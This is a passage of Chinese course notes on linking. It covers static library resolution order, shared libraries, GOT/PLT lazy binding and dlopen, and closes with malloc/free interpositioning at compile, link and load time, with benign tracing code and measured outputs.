z = [4 6]图 7（b）画出了链接器的工作。链接器发现 main2.o 引用了 addvec，而 addvec 定义在 libvector.a 的成员 addvec.o 中，于是把 addvec.o 复制进可执行文件；程序没有引用 multvec.o 定义的任何符号，这个成员就不会被复制。同样，链接器从 libc.a 中复制 printf.o，以及 printf.o 直接或间接用到的其他模块。实测 nm prog2c 的输出中有 addvec（地址 0x4018b8），没有 multvec，印证了“只取用到的成员”。课件上 prog2c 的大小是 861,232 字节，默认环境上是 785,464 字节，绝大部分来自 C 库：printf 牵连的模块很多。文件名里的 c 表示 compile-time，即链接发生在编译时。
链接器是怎样用静态库解析引用的呢？理解了下面这个算法（p.44），命令行顺序引起的各种错误就都不难解释了。链接器按照命令行上从左到右的顺序扫描各个 .o 文件和 .a 文件（驱动程序会先把 .c 文件翻译成 .o）。扫描过程中它维护三个集合：E 是将要合并成可执行文件的可重定位目标文件的集合，U 是已被引用但尚未找到定义的符号的集合，D 是前面的输入文件中已经定义的符号的集合。开始时三个集合都是空的。对命令行上的每个输入文件 f，如果 f 是一个目标文件，链接器把它加入 E，并根据 f 的符号定义和引用更新 U 和 D。如果 f 是一个存档，链接器拿 U 中未解析的符号去匹配存档各成员定义的符号：某个成员 m 定义了 U 中的某个符号，就把 m 加入 E，并按 m 的定义和引用更新 U 和 D；对存档的所有成员反复进行这个过程，直到 U 和 D 不再变化；这时没有被加入 E 的成员被直接丢弃，链接器继续处理下一个输入文件。全部输入文件扫描完后，如果 U 非空，链接器报错并终止；否则合并和重定位 E 中的目标文件，生成可执行文件。
表 8用这个算法跟踪上面那条正确的命令。gcc 会自动在命令行的最后加上 C 库，所以实际的输入顺序是 main2.o、libvector.a、libc.a（为简洁起见，表中略去了启动文件和它们引用的符号）。
表 8 链接器扫描 main2.o、libvector.a、libc.a 时三个集合的变化
| 扫描到的输入 | E（要链接的目标文件） | U（未解析的引用） | D（已定义的符号） |
|---|---|---|---|
| （开始） | 空 | 空 | 空 |
| main2.o | main2.o | addvec、printf | main、x、y、z |
| libvector.a | main2.o、addvec.o | printf | main、x、y、z、addvec |
| libc.a | main2.o、addvec.o、printf.o 以及它依赖的成员 | 空 | 再加上 printf 等 |
扫描到 libvector.a 时，U 中有 addvec，成员 addvec.o 定义了它，于是被加入 E；multvec.o 没有定义 U 中的任何符号，被丢弃。扫描结束时 U 为空，链接成功。
现在把库放到目标文件前面，就得到课件 p.44 的错误：
linux> gcc -static -o prog2c -L. -lvector main2.o
main2.o: In function `main':
main2.c:(.text+0x19): undefined reference to `addvec'
collect2: error: ld returned 1 exit status用算法跟踪一遍就清楚了：扫描到 libvector.a 时，main2.o 还没有被处理，U 中没有 addvec，库里没有任何成员被取用，整个库都被丢弃；之后扫描 main2.o，addvec 进入 U；后面的 libc.a 里没有 addvec，扫描结束时 U 非空，链接器报告“undefined reference to addvec”。默认环境上重复这条命令，得到的是同样的错误（偏移为 .text+0x23）。
★ 使用静态库的要点
链接器只扫描一遍命令行，遇到存档时只取出“此刻”需要的成员，所以命令行上的顺序很重要。一般的准则是把库放在命令行的末尾。如果各个库的成员互相独立，库与库之间可以按任何顺序排列。如果库之间有依赖，就必须排成这样的顺序：对于每个被存档成员引用的符号，命令行上至少有一个定义它的存档排在引用它的存档之后。例如 foo.c 调用 libx.a 中的函数，而它又调用 liby.a 中的函数，就要写成 gcc foo.c libx.a liby.a。如果两个库互相依赖，可以在命令行上重复写库名，如 gcc foo.c libx.a liby.a libx.a。
最后一种情况实测过：让 p.o 调用 libx.a 中的 fx，fx 调用 liby.a 中的 fy，fy 又调用 libx.a 中另一个成员定义的 fx2。命令 gcc p.o libx.a liby.a 报错（fx2 未定义），gcc p.o libx.a liby.a libx.a 链接成功。另一种办法是把互相依赖的库合并成一个存档。
15.11 共享库与动态链接（课件 p.45–48）#
静态库仍然有明显的缺点（p.45）。第一，存储上的重复：几乎每个 C 程序都要用标准 I/O 函数，于是磁盘上每个可执行文件里都有一份 printf 及其依赖的代码。第二，运行时的重复：这些程序同时运行时，内存里每个进程又各有一份同样的代码。第三，维护上的麻烦：系统库哪怕只修了一个小错误，每个应用程序都得显式地重新链接才能用上新版本。课件举的例子是 2016 年公布的 glibc 中 getaddrinfo 函数的栈缓冲区溢出漏洞（CVE-2015-7547）：如果所有程序都静态链接了 glibc，修复这个漏洞就意味着把系统中的所有程序重新构建一遍。
共享库（shared library）是解决这些问题的现代办法。共享库是一种目标模块，它的代码和数据在运行时才被加载到内存并和程序链接起来，这个过程称为动态链接（dynamic linking），由动态链接器（dynamic linker）完成。共享库在 Linux 上以 .so 为后缀，也叫共享目标（shared object），Windows 上叫动态链接库（DLL）。
“共享”有两层含义。其一，文件系统中一个库只有一个 .so 文件，所有引用它的可执行文件共享这个文件中的代码和数据，而不是各自复制一份嵌入自己的可执行文件。其二，共享库 .text 节在内存中的同一个副本可以被不同的正在运行的进程共享（p.46 最后一条）。第二点要到虚拟内存一讲才能讲清楚，这里只需知道它带来一个要求：共享库的代码必须能被加载到任意地址而无需修改，下一节讨论这是怎样做到的。至于第三个缺点，库更新时只要替换 .so 文件，所有程序下次运行时自动用上新版本。
动态链接可以发生在两个时刻（p.46）。一个是可执行文件第一次被加载和运行时，叫加载时链接（load-time linking）；这是 Linux 上最常见的情形，由动态链接器 ld-linux.so 自动完成，标准 C 库 libc.so 通常就是这样链接的。另一个是程序已经开始运行之后，叫运行时链接（run-time linking），在 Linux 上通过调用 dlopen 接口实现，15.13 节讨论。
把上一节的向量库做成共享库，命令如下（p.47）。-fpic 选项让编译器生成位置无关代码，-shared 选项让链接器创建共享目标文件。
linux> gcc -Og -c addvec.c multvec.c -fpic
linux> gcc -shared -o libvector.so addvec.o multvec.o⚠ 课件 p.47 图中的“Loader (ld)”
p.47 的流程图里，把 addvec.o 和 multvec.o 合并成 libvector.so 的方框标着“Loader (ld)”。ld 是链接器（linker），这个方框应为“Linker (ld)”。加载器（loader）是操作系统中负责把可执行文件装入内存并运行的那部分代码，p.48 的图里才轮到它出场。
有了共享库，就可以把它和 main2.c 链接（p.48）：
linux> gcc -o prog2l main2.c ./libvector.so
linux> ./prog2l
z = [4 6]图 8（a）画出了这个过程，它分成两个阶段。第一个阶段在生成可执行文件时，由静态链接器 ld 完成一部分链接工作：它把 main2.o 与 libvector.so、libc.so 放在一起做符号解析，确认 addvec 和 printf 都有定义，但不把 libvector.so 的任何代码节和数据节复制到 prog2l 中，只复制一些重定位信息和符号表信息，使得运行时能够解析对 libvector.so 中代码和数据的引用。所以课件把 prog2l 称为“部分链接的可执行目标文件”。
图 8 动态链接共享库（课件 p.48、p.51）：（a）加载时链接；（b）运行时通过 dlopen 链接
第二个阶段在程序加载时。加载器（execve）把 prog2l 装入内存后，注意到它包含一个 .interp 节，其中是动态链接器的路径名。加载器不像往常那样把控制交给应用程序，而是先加载并运行这个动态链接器。动态链接器随后完成剩下的链接任务：把 libc.so 的代码和数据重定位到某个内存段；把 libvector.so 的代码和数据重定位到另一个内存段；重定位 prog2l 中所有对这两个库定义的符号的引用。最后动态链接器把控制交给应用程序。从这一刻起，共享库的位置就固定了，在程序执行过程中不再改变；内存中的程序这时才是“完全链接”的。
文件大小直接反映了两种链接方式的差别。课件上静态链接的 prog2c 是 861,232 字节，动态链接的 prog2l 只有 8,488 字节；默认环境上分别是 785,464 字节和 16,080 字节。如果在运行前把 libvector.so 移走，prog2l 就无法启动，报错“error while loading shared libraries: ./libvector.so: cannot open shared object file”，可见库的代码确实不在可执行文件里。
15.12 位置无关代码、GOT 与 PLT（教材 7.12 节）#
课件在 p.47 用了 -fpic 选项，在 p.53 提到动态链接“需要额外的 PLT 间接跳转”，但没有展开。这一节按教材 7.12 节补上这部分内容，它是理解动态链接代价的关键。
多个进程要共享内存中同一份库代码，就不能像静态链接那样在加载时修改代码里的地址：不同进程可能把这个库加载到不同的地址，改了就不能共享了。办法是把库的代码编译成位置无关代码（Position-Independent Code，PIC），即无论被加载到哪个地址都不需要修改就能正确执行的代码。gcc 的 -fpic 选项就是要求生成这种代码，共享库必须这样编译。
模块内部的引用天然可以做到位置无关：同一个模块里，一条指令与它要调用的函数、要访问的变量之间的距离，在链接这个模块时就固定了，用 PC 相对寻址即可，加载到哪里都不变。困难在于对其他模块定义的符号的引用，它们的地址只有运行时才知道。
对全局变量的引用，靠的是这样一个事实：无论目标模块被加载到哪里，它的数据段与代码段之间的距离总是不变的。编译器在数据段的开头建一张表，叫全局偏移量表（Global Offset Table，GOT），本模块引用的每个全局数据对象在表中占一个 8 字节的条目，并各有一个重定位条目。加载时，动态链接器把每个 GOT 条目填成目标对象的绝对地址。代码访问全局变量时，先用 PC 相对寻址从 GOT 中取出地址，再通过这个地址间接访问。教材版本的 addvec 带有一个全局计数器 addcnt，把它编译成共享库后可以看到这个模式：
00000000000010f9 <addvec>:
10fc: 48 8b 3d c5 2e 00 00 mov 0x2ec5(%rip),%rdi # 3fc8：addcnt 的 GOT 条目
1103: 8b 07 mov (%rdi),%eax # 通过取出的地址读 addcnt
1105: 83 c0 01 add $0x1,%eax
1108: 89 07 mov %eax,(%rdi) # 写回 addcnt第一条指令从 GOT 条目（地址 0x3fc8，与下一条指令相距 0x2ec5）中取出 addcnt 的地址，之后两条指令通过它读写变量。库的代码里没有出现任何绝对地址；需要在加载时修改的只有 GOT，而 GOT 在数据段里，每个进程本来就各有一份。
对共享库函数的调用还多一层考虑。一个程序可能链接了成百上千个库函数，实际运行中只调用其中很少一部分。如果在加载时就把每个函数的地址都解析好，程序启动会变慢。GNU 编译系统采用延迟绑定（lazy binding）：把函数地址的解析推迟到它第一次被调用的时候。这要靠 GOT 和另一张表——过程链接表（Procedure Linkage Table，PLT）配合完成。PLT 在代码段里，每个条目是一小段 16 字节的代码；可执行文件调用的每个共享库函数各有一个 PLT 条目和一个对应的 GOT 条目。
下面用上一节的程序实际看一遍。为了让地址固定、便于阅读，这里把 main2.c 编译成不带位置无关的可执行文件，并显式要求延迟绑定（gcc -Og -no-pie -fno-pie -Wl,-z,lazy -U_FORTIFY_SOURCE -o prog2l main2.c ./libvector.so，最后一个选项关掉 Ubuntu 默认把 printf 换成带检查版本的做法，让调用的名字保持为 printf）。main 中对 addvec 的调用变成了对 PLT 条目的调用：
0000000000401136 <main>:
40114e: e8 ed fe ff ff call 401040 <addvec@plt>
401169: e8 c2 fe ff ff call 401030 <printf@plt>
0000000000401020 <.plt>: # PLT[0]：公共入口
401020: ff 35 ca 2f 00 00 push 0x2fca(%rip) # 403ff0，即 GOT[1]
401026: ff 25 cc 2f 00 00 jmp *0x2fcc(%rip) # 403ff8，即 GOT[2]
0000000000401030 <printf@plt>: # PLT[1]
401030: ff 25 ca 2f 00 00 jmp *0x2fca(%rip) # 404000，即 GOT[3]
401036: 68 00 00 00 00 push $0x0
40103b: e9 e0 ff ff ff jmp 401020 <.plt>
0000000000401040 <addvec@plt>: # PLT[2]
401040: ff 25 c2 2f 00 00 jmp *0x2fc2(%rip) # 404008，即 GOT[4]
401046: 68 01 00 00 00 push $0x1
40104b: e9 d0 ff ff ff jmp 401020 <.plt>
GOT（.got.plt 节，起始地址 0x403fe8，每个条目 8 字节）在文件中的初始内容：
GOT[0] = 0x403df8 .dynamic 节的地址
GOT[1] = 0 加载时由动态链接器填入：标识本模块的信息
GOT[2] = 0 加载时由动态链接器填入：动态链接器的解析函数入口
GOT[3] = 0x401036 printf 的条目，初值指向 PLT[1] 的第二条指令
GOT[4] = 0x401046 addvec 的条目，初值指向 PLT[2] 的第二条指令图 9把第一次调用 addvec 的过程分步画出，图中圆圈里的数字就是下面的步骤编号。第 1 步，main 调用 addvec@plt，控制转到 PLT[2]。第 2 步，PLT[2] 的第一条指令通过 GOT[4] 间接跳转；GOT[4] 的初值是 0x401046，恰好是 PLT[2] 的第二条指令，所以这次跳转只是“跳到下一条指令”。第 3 步，把 addvec 的编号 1（它在 .rela.plt 重定位表中的序号）压栈，然后跳到 PLT[0]。第 4 步，PLT[0] 把 GOT[1] 压栈，再通过 GOT[2] 间接跳转到动态链接器。第 5 步，动态链接器根据栈上的两个参数确定 addvec 的运行时地址，用这个地址改写 GOT[4]。第 6 步，动态链接器把控制交给 addvec。此后再调用 addvec 时（图的下半部分），控制同样先到 PLT[2]，但这次从 GOT[4] 中取出的已经是 addvec 的地址，间接跳转直接到达 addvec，比普通的函数调用只多执行一条 jmp 指令。
图 9 延迟绑定（教材图 7.19，地址为默认环境实测）：第一次调用 addvec 时经过动态链接器并改写 GOT[4]，以后的调用只多一次间接跳转
这个过程可以直接观察到。在 main 里借助链接器定义的符号 _GLOBAL_OFFSET_TABLE_ 读出 GOT 条目，在调用 addvec 之前和之后各读一次（关闭地址随机化运行）：
GOT[3] (printf): 0x401036 -> 0x401036 # 此时还没有调用过 printf，条目未变
GOT[4] (addvec): 0x401046 -> 0x7ffff7fb70f9 # 调用一次 addvec 之后，已被改写调用之前 GOT[4] 是 0x401046，调用之后变成了 0x7ffff7fb70f9。libvector.so 这次被加载到 0x7ffff7fb6000，addvec 在库中的偏移是 0x10f9（nm -D libvector.so 可见），两者相加正是这个值。
常见问题：自己的机器上为什么看不到延迟绑定？
默认环境（以及近年的多数 Linux 发行版）出于安全考虑，默认让链接器给可执行文件打上“立即绑定”的标记：readelf -d prog2l 的输出中有 FLAGS BIND_NOW。这时动态链接器在加载时就把所有 GOT 条目填成最终地址，随后把 GOT 所在的页改为只读，程序运行中 GOT 不能再被改写。上面的实验换成默认选项编译后，GOT[4] 在调用前后都是 0x7ffff7fb70f9。PLT 和 GOT 的间接跳转仍然存在，只是解析的时机从“第一次调用”提前到了“加载时”：启动稍慢一点，换来 GOT 不可篡改。对已有的可执行文件设置环境变量 LD_BIND_NOW=1 再运行，效果相同。教材和课件描述的延迟绑定仍然是这套机制的基本设计，只是许多系统如今默认关掉了它。
15.8 节提到的 R_X86_64_PLT32 类型也在这里得到了解释：汇编器对 call addvec 生成这种重定位条目，意思是“目标可能在共享库里”。静态链接器发现 addvec 确实定义在共享库中，就为它建立 PLT 条目，把 call 的目标填成 PLT 条目的地址（上面的 0x401040）；如果 addvec 定义在可执行文件内部，就直接填它自己的地址，不需要 PLT。
15.13 运行时动态链接与程序依赖的库（课件 p.46、p.49–52）#
前面的动态链接发生在程序开始运行之前。应用程序还可以在运行过程中请求动态链接器加载和链接任意的共享库，而不需要在编译时把这些库链接进来。课件 p.46 列了三种用途。一是分发软件：应用程序的开发者可以把更新做成新版本的共享库，用户下载后，程序下次运行时自动加载新库。二是构建高性能 Web 服务器：把生成动态内容的函数打包在共享库里，收到请求时服务器动态加载并直接调用相应的函数，而不是为每个请求创建一个子进程；函数加载后留在内存里，后续请求的开销只相当于一次函数调用，而且不停止服务器就能更新已有的函数或增加新的函数。三是运行时库打桩（15.15 节）。
Linux 为此提供了一组简单的接口，声明在 dlfcn.h 中。表 9列出四个函数。
表 9 运行时动态链接的接口
| 函数 | 作用 |
|---|---|
void *dlopen(const char *filename, int flag); | 加载并链接共享库 filename，成功返回一个句柄，失败返回 NULL。flag 必须包含 RTLD_NOW（立即解析库中所有外部符号的引用）或 RTLD_LAZY（推迟到执行库中的代码时再解析） |
void *dlsym(void *handle, char *symbol); | 在已打开的库中查找符号，返回它的地址；找不到返回 NULL |
int dlclose(void *handle); | 如果没有其他地方还在使用这个库，就卸载它；成功返回 0，出错返回 −1 |
const char *dlerror(void); | 返回一个字符串，描述最近一次调用上面三个函数时发生的错误；没有错误则返回 NULL |
课件的 dll.c 用这组接口在运行时加载 libvector.so 并调用 addvec（p.49–50）：
#include <stdio.h>
#include <stdlib.h>
#include <dlfcn.h>
int x[2] = {1, 2};
int y[2] = {3, 4};
int z[2];
int main(int argc, char **argv)
{
void *handle;
void (*addvec)(int *, int *, int *, int);
char *error;
/* 动态加载包含 addvec() 的共享库 */
handle = dlopen("./libvector.so", RTLD_LAZY);
if (!handle) {
fprintf(stderr, "%s\n", dlerror());
exit(1);
}
/* 取得刚加载的 addvec() 函数的指针 */
addvec = dlsym(handle, "addvec");
if ((error = dlerror()) != NULL) {
fprintf(stderr, "%s\n", error);
exit(1);
}
/* 现在可以像调用其他函数一样调用 addvec() */
addvec(x, y, z, 2);
printf("z = [%d %d]\n", z[0], z[1]);
/* 卸载共享库 */
if (dlclose(handle) < 0) {
fprintf(stderr, "%s\n", dlerror());
exit(1);
}
return 0;
}注意 dll.c 没有包含 vector.h，也没有直接出现对 addvec 这个符号的引用：addvec 在这里只是一个局部的函数指针变量，库的文件名和函数名都以字符串的形式出现。编译和运行的命令是（p.51）：
linux> gcc -rdynamic -o prog2r dll.c -ldl
linux> ./prog2r
z = [4 6]图 8（b）是课件 p.51 的图。与加载时链接相比，关键的区别是：生成 prog2r 时，静态链接器完全不知道 libvector.so 的存在，命令行上没有它，可执行文件里也没有关于它的任何信息；程序启动时，动态链接器只加载了 libc.so；直到执行 dlopen，程序才回头调用动态链接器，把 libvector.so 加载进来。文件名里的 r 表示 run-time。课件上 prog2r 的大小是 8,784 字节，默认环境上是 16,328 字节。
命令行上的两个选项各有来历。-ldl 链接包含 dlopen 等函数的库 libdl；从 glibc 2.34 起这些函数已经并入 libc，默认环境上 libdl.a 只是一个空壳，不写 -ldl 同样能链接。-rdynamic 让可执行文件把自己的全局符号也放进动态符号表，这样被加载的库可以反过来引用主程序中定义的函数和变量；本例的 libvector.so 不引用主程序的任何符号，实测去掉这个选项，程序照样输出 z = [4 6]。
程序需要哪些库：.interp、.dynamic 与 ldd#
动态链接的可执行文件怎样记录自己需要什么？课件 p.52 指出了两个节。.interp 节存放动态链接器的路径名，加载器据此找到并启动动态链接器。.dynamic 节相当于给动态链接器看的“目录”，其中类型为 NEEDED 的条目列出了程序依赖的各个共享库的名字。对 15.11 节的 prog2l 查看这两个节：
linux> readelf -p .interp prog2l
[ 0] /lib64/ld-linux-x86-64.so.2
linux> readelf -d prog2l
0x0000000000000001 (NEEDED) Shared library: [./libvector.so]
0x0000000000000001 (NEEDED) Shared library: [libc.so.6]
....dynamic 里只记了库的名字。libc.so.6 这样不带路径的名字，要由动态链接器在运行时到一组标准目录中去找。ldd 命令可以列出一个可执行文件运行时实际会加载哪些库、各自从哪里找到、被映射到什么地址：
linux> ldd prog2l
linux-vdso.so.1 (0x00007f4a35c6c000)
./libvector.so (0x00007f4a35c5a000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f4a35a00000)
/lib64/ld-linux-x86-64.so.2 (0x00007f4a35c6e000)四行各有含义。libc.so.6 在目录 /lib/x86_64-linux-gnu 下找到。./libvector.so 链接时就给了相对路径，按原样去找。最后一行是 .interp 指定的动态链接器自身。第一行的 linux-vdso.so.1 不对应磁盘上的任何文件，它是内核自动映射进每个进程的一小段代码，用来加速 gettimeofday 这类不必真正陷入内核的系统调用。括号里的地址因地址随机化而每次不同，上面是某一次运行的结果。前面的 prog2r 用 ldd 查看时只有 vdso、libc 和动态链接器三行，没有 libvector.so，再次说明静态链接器对运行时才加载的库一无所知。
15.14 静态链接与动态链接的权衡及小结（课件 p.53–54、p.65）#
课件 p.53 从运行开销和空间两方面比较了两种链接方式，表 10在它的基础上加入了前面几节的实测数据。
表 10 静态链接与动态链接的比较
| 比较项 | 静态链接 | 动态链接 |
|---|---|---|
| 库代码在哪里 | 用到的成员被复制进每个可执行文件 | 留在 .so 文件里，可执行文件只记录库名和少量符号、重定位信息 |
| 可执行文件大小 | 大。hello 程序：课件 571 K，默认环境 785,384 字节 | 小。hello 程序：课件 7 K，默认环境 15,960 字节 |
| 运行时内存 | 每个进程各有一份库代码 | 所有进程共享内存中同一份库代码；常用的库多半已在内存和缓存中 |
| 启动开销 | 无需在运行时查找和加载库 | 加载时要查找库、做重定位（或在第一次调用时解析） |
| 调用开销 | 直接调用 | 多一次经过 PLT 和 GOT 的间接跳转；访问库的全局变量多一次经过 GOT 的间接访问 |
| 库更新 | 每个程序都要重新链接 | 替换 .so 文件即可，程序不用动 |
| 部署 | 可执行文件自成一体，不依赖目标机器上的库 | 目标机器上必须有版本兼容的库，否则无法启动 |
两种方式各有适用的场合。系统中被大量程序使用的库（C 库是最典型的）几乎总是动态链接，节省的磁盘和内存非常可观，安全更新也方便。需要在各种环境里“拿来就能跑”的工具，或者对启动时间和调用开销极其敏感的程序，则可能选择静态链接。
课件用两页小结收尾。p.54 的三句话概括了全讲：链接是一种让程序由多个目标文件构造而成的技术；链接可以发生在程序生命周期的不同时刻——编译时（程序被编译时）、加载时（程序被加载到内存时）、运行时（程序执行过程中）；理解链接可以帮助我们避免一些讨厌的错误，成为更好的程序员。p.65 则从实践的角度提醒：链接通常默默完成、不值一提；偶尔会带来奇怪的错误，原因多半是不恰当的符号解析（15.5–15.6 节），或者命令行上 .o、.a、.so 文件的顺序（15.10 节）；对高级用户来说，还可以利用库打桩在有源码或没有源码的情况下跟踪程序，这正是下一节的内容。
15.15 案例研究：库打桩（课件 p.55–64）#
库打桩（library interpositioning）是一种强大的链接技术：它让程序员截获对任意库函数的调用，转而执行自己的代码（p.55）。基本想法是，给定一个要打桩的目标函数，另写一个原型与它完全相同的包装函数（wrapper），再用某种手段“骗过”系统，让程序调用包装函数而不是目标函数；包装函数通常先执行自己的逻辑，再调用真正的目标函数，把返回值传回给调用者。打桩可以发生在三个时刻：编译时（源代码被编译时）、链接时（可重定位目标文件被静态链接成可执行文件时）、加载和运行时（可执行文件被加载进内存、动态链接、然后执行时）。教材 7.13 节有完整的讲解。
课件列举了打桩的几类用途（p.56–57）。安全方面，可以把程序限制在沙箱里（confinement），或者在背后透明地加密。调试方面，课件讲了一个真实的故事：2014 年，Facebook 的两位工程师用打桩技术查出了他们 iPhone 应用中一个存在了一年的隐蔽错误——SPDY 网络协议栈中的代码把数据写到了错误的位置，他们截获了对 POSIX 写函数（write、writev、pwrite）的调用，才把它找出来。监控和剖析方面，可以统计函数被调用的次数，刻画函数的调用位置和参数；对 malloc 的跟踪尤其常用，可以检测内存泄漏，也可以生成地址访问序列（trace），本课程后面 Malloc Lab 用的 trace 就是这样得到的。错误检查方面，CMU 的 C 语言实验用定制版的 malloc 和 free 做细致的检查，其他实验（malloc、shell、proxy）也用打桩来增强检查能力。
课件用一个很小的程序作为打桩的对象（p.58）。int.c 把命令行上的每个参数转换成整数 n，调用 malloc(n) 分配一块内存，随即用 free 释放。目标是跟踪每次分配和释放的块的地址与大小，既不能破坏程序，也不能修改这份源代码。
/* int.c */
#include <stdio.h>
#include <malloc.h>
#include <stdlib.h>
int main(int argc, char *argv[])
{
int i;
for (i = 1; i < argc; i++) {
void *p = malloc(atoi(argv[i]));
free(p);
}
return(0);
}下面分别在三个时刻对 malloc 和 free 打桩。三种做法的包装函数写在同一个文件 mymalloc.c 里，用条件编译区分。图 10先给出三种做法中调用路径的全貌。
图 10 三种库打桩方式（课件 p.59–64）：同样是让 main 中的 malloc(n) 先经过包装函数，“调包”分别发生在预处理、静态链接和动态链接阶段
先看编译时打桩（p.59–60），它利用的是 C 预处理器。包装函数起名为 mymalloc 和 myfree，在其中调用真正的 malloc 和 free 并打印跟踪信息：
/* mymalloc.c 的编译时部分 */
#ifdef COMPILETIME
#include <stdio.h>
#include <malloc.h>
/* malloc 的包装函数 */
void *mymalloc(size_t size)
{
void *ptr = malloc(size);
printf("malloc(%d)=%p\n", (int)size, ptr);
return ptr;
}
/* free 的包装函数 */
void myfree(void *ptr)
{
free(ptr);
printf("free(%p)\n", ptr);
}
#endif然后在当前目录下放一个与系统头文件同名的 malloc.h，用宏把 malloc 和 free 换成包装函数：
/* 当前目录下的 malloc.h */
#define malloc(size) mymalloc(size)
#define free(ptr) myfree(ptr)
void *mymalloc(size_t size);
void myfree(void *ptr);构建时的关键是两条命令用了不同的头文件搜索路径：
linux> gcc -Wall -DCOMPILETIME -c mymalloc.c
linux> gcc -Wall -I. -o intc int.c mymalloc.o
linux> ./intc 10 100 1000
malloc(10)=0x1ba7010
free(0x1ba7010)
malloc(100)=0x1ba7030
free(0x1ba7030)
malloc(1000)=0x1ba70a0
free(0x1ba70a0)第二条命令的 -I. 让预处理器在搜索系统目录之前先搜索当前目录，于是 int.c 中的 #include <malloc.h> 找到的是当前目录下的 malloc.h，源代码里的 malloc(...) 和 free(...) 被宏展开成 mymalloc(...) 和 myfree(...)。第一条命令编译 mymalloc.c 时没有 -I.，其中的 #include <malloc.h> 找到的是系统的 /usr/include/malloc.h（课件 p.60 上的两个绿色标注框说的就是这两次查找的去向），包装函数里的 malloc 和 free 就是真正的库函数；假如这里也加了 -I.，包装函数会变成调用自己，陷入无穷递归。用 gcc -I. -E int.c 查看预处理结果，可以确认循环体已经变成 void *p = mymalloc(atoi(argv[i])); myfree(p);，nm 显示 int.o 引用的符号是 mymalloc 和 myfree。上面的输出取自课件；默认环境上运行得到的格式相同，只是地址不同且每次运行都变（如 0x56253faab2a0），这是堆地址随机化的效果。
编译时打桩简单直接，但必须能拿到源代码并重新编译：它改变的是编译器看到的源程序。
再看链接时打桩。2026 版课件没有这部分的代码页，这里按 2025 版课件 p.61–62 和教材 7.13.2 节补全。Linux 的静态链接器支持一个专门的选项 --wrap f，它对符号解析做两处手脚：把对符号 f 的引用解析成 __wrap_f，把对符号 __real_f 的引用解析成 f。于是只要把包装函数命名为 __wrap_malloc 和 __wrap_free，并在其中通过 __real_malloc 和 __real_free 调用真正的库函数：
/* mymalloc.c 的链接时部分 */
#ifdef LINKTIME
#include <stdio.h>
void *__real_malloc(size_t size);
void __real_free(void *ptr);
/* malloc 的包装函数 */
void *__wrap_malloc(size_t size)
{
void *ptr = __real_malloc(size); /* 调用 libc 的 malloc */
printf("malloc(%d) = %p\n", (int)size, ptr);
return ptr;
}
/* free 的包装函数 */
void __wrap_free(void *ptr)
{
__real_free(ptr); /* 调用 libc 的 free */
printf("free(%p)\n", ptr);
}
#endif这一次 int.c 用普通的方式编译，不需要特别的头文件，打桩完全发生在链接命令里：
linux> gcc -Wall -DLINKTIME -c mymalloc.c
linux> gcc -Wall -c int.c
linux> gcc -Wall -Wl,--wrap,malloc -Wl,--wrap,free -o intl int.o mymalloc.o
linux> ./intl 10 100 1000
malloc(10) = 0x55ba5412d2a0
free(0x55ba5412d2a0)
malloc(100) = 0x55ba5412e2d0
free(0x55ba5412e2d0)
malloc(1000) = 0x55ba5412e340
free(0x55ba5412e340)-Wl,option 的作用是把 option 传给链接器，其中的逗号会被替换成空格，所以 -Wl,--wrap,malloc 传给链接器的是 --wrap malloc。链接之前用 nm 查看两个目标文件，可以看清“调包”是怎样发生的：int.o 中未定义的符号是 malloc 和 free，mymalloc.o 中定义了 __wrap_malloc 和 __wrap_free、未定义的是 __real_malloc 和 __real_free。有了 --wrap 选项，int.o 对 malloc 的引用被绑定到 mymalloc.o 的 __wrap_malloc，mymalloc.o 对 __real_malloc 的引用被绑定到 C 库的 malloc。上面的输出是默认环境上的实测结果。链接时打桩不需要源代码，但需要能拿到可重定位目标文件并重新链接。
最后看加载和运行时打桩（p.61–63），它连重新链接都不需要，只要求程序是动态链接的。这种做法基于动态链接器的环境变量 LD_PRELOAD：如果把它设置为一个共享库的路径名（或者用空格、冒号分隔的一串路径名），那么加载和执行程序时，动态链接器在解析未定义的引用时会先搜索 LD_PRELOAD 指定的库，然后才搜索其他共享库。于是只要做一个共享库，在其中定义与库函数同名的 malloc 和 free，程序中对 malloc、free 的调用就会被解析到我们的版本上。
/* mymalloc.c 的运行时部分（课件 p.61–62） */
#ifdef RUNTIME
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <dlfcn.h>
/* malloc 的包装函数 */
void *malloc(size_t size)
{
void *(*mallocp)(size_t size);
char *error;
mallocp = dlsym(RTLD_NEXT, "malloc"); /* 取得 libc 中 malloc 的地址 */
if ((error = dlerror()) != NULL) {
fputs(error, stderr);
exit(1);
}
char *ptr = mallocp(size); /* 调用 libc 的 malloc */
printf("malloc(%d) = %p\n", (int)size, ptr);
return ptr;
}
/* free 的包装函数 */
void free(void *ptr)
{
void (*freep)(void *) = NULL;
char *error;
if (!ptr)
return;
freep = dlsym(RTLD_NEXT, "free"); /* 取得 libc 中 free 的地址 */
if ((error = dlerror()) != NULL) {
fputs(error, stderr);
exit(1);
}
freep(ptr); /* 调用 libc 的 free */
printf("free(%p)\n", ptr);
}
#endif包装函数自己就叫 malloc，它怎样调用真正的 malloc 呢？直接写 malloc(size) 只会调用到自己。这里用到了 15.13 节的 dlsym，但句柄参数是一个特殊的值 RTLD_NEXT，意思是“按库的搜索顺序，从当前这个库之后的库里找这个符号”，得到的就是 C 库中 malloc 的地址，再通过函数指针调用它。课件特别用红框提醒：这段代码没有包含 malloc.h，因为这里要自己定义 malloc 和 free。构建和运行的命令是：
linux> gcc -Wall -DRUNTIME -shared -fpic -o mymalloc.so mymalloc.c -ldl
linux> gcc -Wall -o intr int.c
linux> LD_PRELOAD="./mymalloc.so" ./intr 10 100 1000
malloc(10) = 0x91a010
free(0x91a010)
. . .第一条命令把包装函数编译成共享库。第二条命令按最普通的方式编译主程序，没有任何特殊选项。第三条命令在运行 intr 时临时设置 LD_PRELOAD；在某些 shell 中要写成 env LD_PRELOAD=./mymalloc.so ./intr 10 100 1000。上面的输出取自课件。
⚠ 课件 p.61 的运行时包装函数在新系统上会崩溃
在默认环境（glibc 2.39）上原样运行课件的代码，程序没有任何输出就以段错误结束（退出状态 139）。原因是 printf 第一次向标准输出写内容时，C 库内部要调用 malloc 为输出流分配缓冲区；而这个 malloc 已经被换成了包装函数，包装函数里又调用 printf，printf 再调用 malloc……形成无穷递归，直到栈耗尽。课件和教材上的输出来自较早的系统。编译时和链接时的版本没有这个问题：那两种做法只替换了 int.c 里的调用，C 库内部对 malloc 的调用不受影响。
